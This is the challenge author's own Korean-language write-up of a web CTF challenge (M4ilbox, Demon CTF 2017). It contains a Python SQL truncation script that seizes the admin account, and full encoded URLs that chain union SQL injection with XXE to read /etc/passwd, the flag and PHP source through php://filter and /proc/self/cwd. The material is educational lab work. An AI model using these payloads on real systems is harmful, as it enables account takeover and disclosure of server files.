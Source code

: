 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
M4ilbox Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 윤석찬 ([ch4n3](http://chaneyoon.tistory.com))
* Field  : Web Hacking
* E-Mail : chaneyoon@gmail.com
* Date   : 2017-09-12

## Intention
* 전체적인 컨셉으로는 실제 **리얼월드**에서 검색할 때 일어날 수 있는 취약점을 기본으로 함.
* 공격 벡터가 많은 웹 어플리케이션에서 취약한 벡터를 찾는 것이 관건이었음.
* 플래그 형식은 **Demon{...}**

## Solve
* [challenge url](http://108.61.161.168:8080/)

### 1. Functions Analyse
> 1. 먼저 공격 벡터가 있을 만한 기능부터 봐 보자
-   로그인 / 회원가입 기능 (아마도 SQL Injection)
-	메일 보내기 기능
-	중요 메일 확인, 내가 쓴 메일, 내가 받은 메일 확인 기능
-	Members라고 쓰여져 있는 관리자만 사용할 수 있는 기능


저 공격벡터 중에 관리자만 사용할 수 있는 기능이 수상한데,
어드민 권한을 획득하려면 뭔갈 해야하는 듯..?

공격 벡터 중에 어드민의 권한을 가져올 수 있는 방법이 있을까?

> 2. admin 권한 탈취
- 일단 XSS로 admin 권한을 획득할 수 있겠고..
- 만약에 회원가입에서 SQL Injection이 된다면 admin이라는 값을 자신의 임의대로 넣을 수도 있음ㅋㅋ
- 근데 아무리 SQLMAP같은 퍼저를 돌려도 회원가입에서 취약점이 안나올 것이다. 
왜냐면 addslashes()를 사용자의 모든 input에 대해 때려 박았거등요~~~~
- 그럼 역시 XSS로 해야되나.. 생각할 수도 있겠는데
정작 admin의 권한을 얻는 취약점은 회원가입 부분이다.
- 취약점은 바로 SQL Truncation Attack~~~~


다음 코드로 admin의 권한을 획득할 수 있다ㅋㅋㅋㅋ

```{.python}
#!/usr/bin/python
# coding: utf-8

import requests

url = 'http://108.61.161.168:8080/join/ok.php'

data = {
	'firstName'	: 'SoekChan',
	'lastName'	: 'Yoon',
	'age'		: 17,
	'id'		: 'admin' + ' ' * 100 + 'a',
	'password'	: 'tmxkdnjwm123',
	'password_confirmation': 'tmxkdnjwm123'
}

r = requests.post(url, data=data)
print(r.text)
```

> 3. admin 권한 획득 후 공격 진행
- admin 권한을 획득하면 members 탭에서 member들을 검색할 수 있는 권한을 얻는다.
- members에서 id를 입력하고 검색하면 해당 유저에 대한 정보들이 뜬다.
- 근데 정보를 얻는 방식이...?

    http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=admin%26encoding=UTF-8 

- url 파라미터로 넘긴 값에 뭐가 있을지 한 번 들어가보자

    http://108.61.161.168:8080/members/search.php?search=admin&encoding=UTF-8   
- 위의 링크로 접속해보면 **xml 형식**으로 정보를 전달하는 것을 알 수 있다. (~~코럼 행님, XXE각 나오는 부분 ㅇㅈ? ㅇㅇㅈ~~)

> 4. Exploit Using XXE
- search.php 에서 검색을 할 때 **SQL Injection 취약점**이 발생한다는 것을 알 수 있다. 
- 엌ㅋㅋㅋㅋ 그럼 **union based SQLi**를 진행하면 xml 파일 조작 가능하고 고럼 쉽게 뚫릴 것 같은뎈ㅋㅋㅋ
- 근데 union sql injection으로 조작할 수 있는 범위는 한계가 있다. 
- 근데 encoding 파라미터는 뭐지..?
- encoding 파라미터를 변환시켜보면 xml파일의 **Prolog가 변한다**. (~~개꿀~~)
~~encoding값을 변화시켜 xml을 조작하는 것은 전혀 게싱이 아니다. 국내 포털사이트 중 이러한 방법을 통해서 exploit 할 수 있는 곳이 있다ㄷㄷ~~
- 그래서 두 취약점을 합쳐서 XXE를 진행할 수 있다. 
http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-&encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 이렇게 XXE를 통해서 /etc/passwd를 읽어올 수 있다. 그럼 다시 beautify.php에 url 파라미터로 적절한 url encoding을 사용해서 접속해보자.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 그리고 플래그는 최상위 경로에 있다고 했으니까 file:///flag 를 읽어오면 된다.

> 5. Other Exploit
- XXE를 통해서 읽기 권한이 있는 모든 파일에 접근할 수 있게 되었다. 
- 그럼 해당 어플리케이션의 소스는 볼 수 없을까?
- 당연히 있다. 하지만, 해당 웹 어플리케이션의 절대 경로를 알아내야 한다. ~~슈퍼게싱~~
- 는 구라고 절대경로를 알지 않고서도 소스를 볼 수 있다.
- 바로 /proc/self/cwd 를 이용하면 된다ㅋㅋㅋㅋㅋ
- file:///proc/self/cwd/index.php를 XXE로 읽어오려고 하면 어떤 이유에선지 되지 않는다.
- 하지만, php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php로 읽어올 수 있는 것을 확인했다.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php%22%20%3E]%3E%3C!--
- 그리고 웹 디렉토리 최상위 경로에 있는 index.php도 볼 수 있다. 
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/../index.php%22%20%3E]%3E%3C!--
이렇게
- 그리고 자신이 알고 있는 다른 취약점을 찾아서 exploit 해보면 된다. 
~~근데 나는 모르겠다~~

# 끝

